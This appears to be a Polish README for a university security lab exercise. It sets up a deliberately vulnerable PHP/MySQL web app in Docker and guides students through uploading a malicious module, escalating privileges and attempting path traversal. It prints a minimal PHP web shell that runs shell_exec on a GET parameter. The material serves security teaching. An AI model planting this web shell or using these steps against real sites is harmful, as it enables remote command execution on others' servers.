 # Instrukcja do części praktycznej

## Konfiguracja środowiska

W celu zainstalowania aplikacji zalecamy skorzystanie z docker-compose.

https://docs.docker.com/compose/install/

Oczywiście kod źródłowy aplikacji jest dla Ciebie dostępny, więc jeśli wolisz wykonać zadanie
w np. XAMPP'ie, to aplikacja powinna uruchomić się bez problemu, jednakże niniejsza instrukcja jest napisana z myślą o docker-compose.

### O aplikacji

Aplikacja, którą będziesz poddawać testowi, została napisana w języku PHP (8.2.25) i działa na serwerze Apache. Ponad to korzysta ona z serwera bazodanowego MySQL (MariaDB).

W katalogu src znajdziesz kod źródłowy strony. Chcąc zmienić dane
dostępowe do bazy danych, należy zmodyfikować plik src/lib/connect.php. Plik
inicjalizujący bazę danych znajduje się w ścieżce config/init.sql. Zawarte są
w nim kwerendy odpowiedzialne za utworzenie odpowiednich tabel i rekordów. Jeśli
utkniesz w trakcie wykonywania zadania, to możesz śmiało zajrzeć do tego pliku w poszukiwaniu
informacji o strukturze bazy danych.

### Instalacja

Pliki docker-compose.yml i Dockerfile pomogą Ci w szybkim postawieniu aplikacji.
Jeśli podążasz za naszym zaleceniem, to nie ingeruj w pliki konfiguracyjne aplikacji (no chyba, że napotkasz jakiś problem).

Upewnij się, że silnik Docker'a jest uruchomiony. Możesz to sprawdzić w panelu Docker Desktop.
Następnie w folderze docker użyj komendy:

```sh
docker-compose up --build
```

Terminal powinien wskazać Ci uruchomienie się 3 kontenerów: php-apache-container,
mysql-container i phpmyadmin-container. Pierwszy i ostatni powinny uruchomić się
szybko i bez problemu, natomiast mysql-container uruchomi się 3 razy i będzie gotowy dopiero
gdy pojawi się komunikat:

```
... [System] [MY-010931] [Server] /usr/sbin/mysqld: ready for connections. ...
```

W katalogu **docker** powinien zostać utworzony folder **mysql-data**. To ważny katalog z perspektywy aplikacji, bo mieści w sobie całą bazę danych. Z racji tego, że nie znajduje się on wewnątrz kontenera, ale na Twoim dysku, to nie musisz martwić się o utratę danych po wyłączeniu aplikacji.

W przypadku uszkodzenia bazy danych, zatrzymaj aplikację, usuń folder mysql-data i uruchom aplikacje ponownie.

Aby wejść do aplikacji, należy odwiedzić localhost:8080.

```
Login: baim
Hasło: baim
```

Aby wejść do panelu phpMyAdmin, należy odwiedzić localhost:8081. \
phpMyAdmin to aplikacja, która może Ci się przydać w modyfikowaniu rekordów w tabelach bazy danych.

```
Login: root
Hasło: root
```

Aby zakończyć działanie docker-compose, użyj kombinacji CTRL-C.

### O zadaniach

Teraz możesz przystąpić do wykonywania zadań. Zachęcamy Cię, abyś spróbował(-a) zmierzyć się z zadaniami bez zaglądania do podpowiedzi i rozwiązań. Jeśli jednak nie czujesz się na siłach, to możesz śmiało po nie sięgać. Zostały one napisane w taki sposób, abyś nie czuł(-a) się zagubiony(-a). Do każdej części zadania zostało dolączone wytłumaczenie mechaniki danego kroku, które najlepiej przeczytać po ukończeniu zadania.

Korzystaj również z kodu źródłowego, jeśli uznasz to za konieczne. Być może jest to Twoja pierwsza styczność z PHP. Dla uspokojenia, jego składnia przypomina mieszankę C i JavaScript, więc nie powinieneś(-aś) mieć problemów ze zrozumieniem kodu na poziomie abstrakcji.

Powodzenia!

## Zadanie 1

1. Zapoznaj się z działaniem aplikacji. Zajrzyj do kodu źródłowego i spróbuj zrozumieć zasadę jej działania (**NIE** analizuj dogłębnie linia po linii).

Jak zaimplementowane jest uwierzytelnianie? \
Jak zaimplementowana jest autoryzacja? \
Jak wczytywane są fragmenty strony? \
[Jak działa aplikacja? [PODPOWIEDŹ]](hints/ex1/1_1_hint.md) \
[Struktura aplikacji [MECHANIKA]](hints/ex1/1_mechanics.md)

2. Wyślij złośliwy moduł

Może to być najprostszy możliwy plik o treści:

```php
<?php
  echo "Hello! I'm evil.";
?>
```

lub też kod RCE:

```php
<?php
  echo shell_exec($_GET['cmd']);
?>
```

gdzie $\_GET['cmd'] przyjmuję wartość pola "cmd" z zapytania GET.

Jakie pliki przyjmuje formularz? \
Gdzie są one przechowywane? \
[Jak wysłać złośliwy kod? [PODPOWIEDŹ]](hints/ex1/2_1_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex1/2_solution.md) \
[Sprawdzanie plików [MECHANIKA]](hints/ex1/2_mechanics.md)

3. Przyznaj swojemu użytkownikowi uprawnienie do wykonania złośliwego modułu.

Jakie informacje o użytkowniku przechowuje baza danych? \
Czy któraś z kolumn może być nadużyta?

[Jak wygląda struktura bazy danych? [PODPOWIEDŹ]](hints/ex1/3_1_hint.md) \
[Jak to wykonać? [PODPOWIEDŹ]](hints/ex1/3_2_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex1/3_solution.md) \
[Komunikacja z bazą [MECHANIKA]](hints/ex1/3_mechanics.md)

4. Uruchom złośliwy moduł

[Konsekwencje ataku [MECHANIKA]](hints/ex1/4_mechanics.md)

## Zadanie 2

Czy jest możliwe wykonanie ataku path traversal głębiej, niż aplikacja na to pozwala? Wykorzystaj do tego celu narzędzia poznane na laboratoriach.

[Jak się za to zabrać? [PODPOWIEDŹ]](hints/ex2/1_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex2/1_solution.md) \
[Zmienna $\_FILES [MECHANIKA]](hints/ex2/1_mechanics.md)
